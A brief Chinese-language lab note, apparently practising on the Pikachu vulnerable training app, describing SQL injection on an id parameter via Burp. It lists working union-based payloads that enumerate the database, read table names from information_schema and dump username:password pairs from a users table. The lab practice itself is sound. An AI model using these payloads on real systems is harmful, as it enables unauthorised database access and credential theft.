

这道题请求后端时带的参数是 1
看下使用常规的sql注入有没有用。

使用burp 修改传入的id值为 1%20and%201=1
看到正常查询，说明明可以注入

接着试试，常用爆破指令
    "1 and 1=1#",
    "1 and 1=2#",
    "1 order by 2#",
    "-1 union select 1,database()#",
    "-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#",
    "-1 union select 1,group_concat(username,0x3a,password) from users#"

具体可以看test.py文件，目前注入成功

